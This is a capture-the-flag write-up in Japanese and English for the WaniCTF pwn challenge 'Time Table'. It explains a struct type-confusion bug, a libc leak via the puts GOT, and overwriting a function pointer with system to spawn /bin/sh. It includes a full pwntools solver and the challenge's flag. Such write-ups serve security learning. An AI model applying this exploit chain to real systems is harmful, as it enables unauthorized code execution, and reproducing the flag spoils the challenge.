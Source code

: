 ```yaml
---
title: "08. Time Table"
level: 4
flag: "FLAG{Do_n0t_confus3_mandatory_and_el3ctive}"
writer: "EBeb"
badge: true
---
```

# 08. Time Table

## 問題文

Is your timetable alright?
`nc timetable-pwn.wanictf.org 9008`

## 解法-日本語
構造体での`type confusion` 
`void register_elective_class()`では`timetable[choice.time[0]][choice.time[1]].type = MANDATORY_CLASS_CODE;` のようなtypeを更新するコードが抜けている。
そのため、`void register_mandatory_class()`で登録した構造体の`timetable`の`type`が`MANDATORY_CLASS_CODE`のままである。
`madatory_subject`と`elective_subject`の構造体は以下のようになっている。
科目登録をすれば、`madatory_subject`と`elective_subject`で同じ`Time`で行われている科目がある。それを用いて`type confusion`を起こす。

```
typedef struct {
  char *name;
  int time[2];
  char *target[4];
  char memo[32];
  char *professor;
} mandatory_subject;

typedef struct {
  char *name;
  int time[2];
  char memo[32];
  char *professor;
  int (*IsAvailable)(student *);
} elective_subject;
```

`mandatory_subject`のみ`target`の領域があるため、`mandatory_subject`の`memo`と`elective_subject`の`memo`の領域が違う。
この差と`type`の更新がないことを利用して、`elective_subject`の怪しい関数ポインターを美味しいものに書き換える。
方法はいくらでもあり得るが、そのなかでsystemに変えたら一番楽だと思ってます。

まずは、`system`のアドレスをリークさせるために`memo`から`professor`の領域を`puts`の`got`に書き換えることで`puts`関数の`libc`上のアドレスをリークさせる。
`GLIBC_2.34` であることから、`puts`と`system`のアドレスの差は`0x30170`となる。
このアドレスを用いて`int (*IsAvailable)(student *);`に`system`のアドレスを書き込む。
systemに`/bin/sh`を与えるために`IsAvailable`関数の引数である`student`の構造体を確認する。

```
typedef struct {
  char name[10];
  int studentNumber;
  int EnglishScore;
} student;
```

`name`に`/bin/sh`を入力すれば`system`は`/bin/sh`が引数として入る。
そのあと`IsAvailable`を実行すると`shell`が取れる。

## WriteUp
type confusion in a structure. 
In `void register_elective_class()`, code that updates the type like `timetable[choice.time[0]][choice.time[1]].type = MANDATORY_CLASS_CODE;` is missing. 
Therefore, the `type` of the `timetable` of the structure registered in `void register_mandatory_class()` remains `MANDATORY_CLASS_CODE`. The structures of `madatory_subject` and `elective_subject` are as follows. If you register a subject, there will be a subject that takes place at the same `Time` in `madatory_subject` and `elective_subject`. Use it to cause type confusion.

```
typedef struct {
  char *name;
  int time[2];
  char *target[4];
  char memo[32];
  char *professor;
} mandatory_subject;

typedef struct {
  char *name;
  int time[2];
  char memo[32];
  char *professor;
  int (*IsAvailable)(student *);
} elective_subject;
```

Only `mandatory_subject` has the area of target, so the area of `memo` of `mandatory_subject` and `memo` of `elective_subject` is different. Using this difference and the lack of type update, rewrite the suspicious function pointer of `elective_subject` to something delicious. There are many possible ways, but I think it would be the easiest to change it to `system`.

First, to leak the address of `system`, rewrite the area of `professor` to the got of `puts`, which leaks the address of the puts function on libc. From being `GLIBC_2.34`, the difference between the addresses of `puts` and `system` is `0x30170`. Use this address to write the address of `system` to `int (*IsAvailable)(student *);`. To give `/bin/sh` to `system`, check the structure of `student`, which is an argument of the `IsAvailable` function.

```
typedef struct {
  char name[10];
  int studentNumber;
  int EnglishScore;
} student;
```

If you enter `/bin/sh` in `name`, `system` will use `/bin/sh` as an argument. After executing `IsAvailable`, you can get a shell."


## Solver
```
    try:
        pc = connect(host, port, timeout=3)
        # pc = process("./chall")
    except:
        return 2
    pc.sendlineafter(b": ", b"/bin/sh")
    pc.sendlineafter(b": ", b"5000")
    pc.sendlineafter(b": ", b"5000")
    log.info("Register Done")
    # Type Confusion GE -> Major
    pc.sendlineafter(b">", b"1")
    pc.sendlineafter(b">", b"0")
    pc.sendlineafter(b">", b"2")
    pc.sendlineafter(b">", b"0")
    log.info("Type confusion")
    # pc.interactive()

    # Leak Libc Address
    pc.sendlineafter(b">", b"4")
    pc.sendlineafter(b">", b"WED 4")
    pc.sendline(p64(0x405020))
    pc.sendlineafter(b">", b"2")
    pc.recvuntil(b" - ")
    puts_libc = pc.recvuntil(b"\n")
    print(puts_libc)
    puts_libc = puts_libc[:-1]
    puts_libc = u64(puts_libc.ljust(8, b"\x00"))
    log.info("puts_libc: " + hex(puts_libc))
    system_libc = puts_libc - 0x30170
    log.info("system_libc: " + hex(system_libc))
    pc.sendlineafter(b">", b"1")

    # OverWrite function pointer to system
    pc.sendlineafter(b">", b"4")
    payload = p64(0) + p64(system_libc)
    pc.sendlineafter(b">", b"WED 4")
    pc.sendline(payload)
    # gdb.attach(pc)
    # pc.interactive()

    pc.sendlineafter(b">", b"2")
    pc.sendlineafter(b">", b"0")
    pc.interactive()
```
